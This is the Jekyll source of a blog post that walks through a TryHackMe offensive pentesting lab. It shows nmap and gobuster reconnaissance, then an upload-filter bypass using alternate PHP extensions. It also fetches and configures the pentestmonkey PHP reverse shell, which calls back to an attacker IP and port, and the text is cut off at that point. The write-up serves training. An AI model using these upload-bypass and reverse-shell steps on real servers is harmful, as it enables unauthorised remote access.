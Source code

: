```yaml
---
layout: post
title:  "TryHackMe Offensive Pentesting Path"
date:   2021-09-12
categories: 
---
```


{% capture details %}
* **Scan Target:** 
	* <code class="custom">
$ nmap -sV 0.0.0.0 <br>
-sV: Probe open ports to determine service/version info <br>
-0.0.0.0: IP address of target
</code>

	* | PORT | STATE | SERVICE | VERSION |
|:-----|:------|:--------|:--------|
| 3333/tcp | open | http | Apache httpd 2.4.18 ((ubuntu)) |
{: .customTable}

* **Discover Directories**
	* <code class="custom">
$ gobuster dir -u http://0.0.0.0:3333 -w /usr/share/wordlists/dirb/common.txt <br>
-u: Target URL <br>
-w: Wordlist
</code>

	* | DIRECTORY | STATUS |
|:----------|:-------|
|/internal  | 301    |
{: .customTable}

* **Visit URL**
	* ![Target URL Port 3333](/assets/targetPort3333.png){: .customImage}
{% endcapture %}
{: .section}
{% capture summary %} 
### Reconnaissance :artificial_satellite:
{% endcapture %}{% include details.html %}

{% capture details %}
* Create and attempt to upload file with *.php* extension
	* ![Upload shell.php](/assets/uploadShellphp.png)

* Create custom extension-list to test what file extensions can be uploaded
	*  <code class="custom">
$ cat phpext.txt <br>
.php <br>
.php3 <br>
.php4 <br>
.php5 <br>
.phtml 
</code>

* Use Burp Suite to enumerate through extensions and find out which ones are allowed

* Get PHP Reverse Shell from *pentestmonkey*
	* <code class="custom">
$ wget https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php <br><br>
Modify 'ip' and 'port' variables to your host machine's IP and netcat port you will use, respectively <br>
$ip = '127.0.0.1';  // CHANGE THIS <br>
$port = 1234;       // CHANGE THIS <br>
</code>

* Rename reverse shell file extension to allowed extension
	* <code class="custom">
$ mv php-reverse-shell.php php-reverse-shell.phtml
</code>

{% endcapture %}
{: .section}
{% capture summary %} 
### Compromise Webserver
{% endcapture %}{% include details.html %}